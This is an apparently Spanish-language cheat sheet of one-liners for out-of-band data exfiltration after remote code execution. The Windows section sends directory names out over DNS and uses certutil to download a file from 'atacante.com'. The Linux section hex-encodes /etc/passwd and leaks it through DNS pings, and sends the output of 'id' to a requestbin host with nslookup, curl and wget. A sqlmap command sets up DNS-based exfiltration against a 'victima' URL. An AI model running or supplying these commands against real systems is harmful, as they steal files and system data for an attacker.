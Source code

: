# RCE Dns-data-exfiltration

## Testing
```
dig test.4f4984e83e92a11d53b7.d.requestbin.net
ping -c 2 test.4f4984e83e92a11d53b7.d.requestbin.net
ping -n 2 test.4f4984e83e92a11d53b7.d.requestbin.net
nslookup test.4f4984e83e92a11d53b7.d.requestbin.net
```

## Windows
```
for /f %i in ('cd') do nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net
for /f "tokens=1" %i IN ('cd') do (nslookup %i 4f4984e83e92a11d53b7.d.requestbin.net)
for /f "tokens=1" %i IN 'cd' do (nslookup %i 4f4984e83e92a11d53b7.d.requestbin.net)
certutil -urlcache -split -f http://atacante.com/test.txt \windows\temp\test.txt
```

## Linux
```
cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -c 1 $exfil.4f4984e83e92a11d53b7.d.requestbin.net;done
nslookup $(id).4f4984e83e92a11d53b7.d.requestbin.net
curl http://requestbin.net/r/1m8fdwf1/$(id)
wget http://requestbin.net/r/1m8fdwf1/$(id)
```

## Otros
```
sqlmap -u 'http://victima/test.php?id=1' -p uid --dbs --technique T --dbms mssql --level 5 --risk 3 --dns-domain 4f4984e83e92a11d53b7.d.requestbin.net
```

https://www.youtube.com/watch?v=Egwp5zc5ZIM<br>
https://www.notsosecure.com/oob-exploitation-cheatsheet/
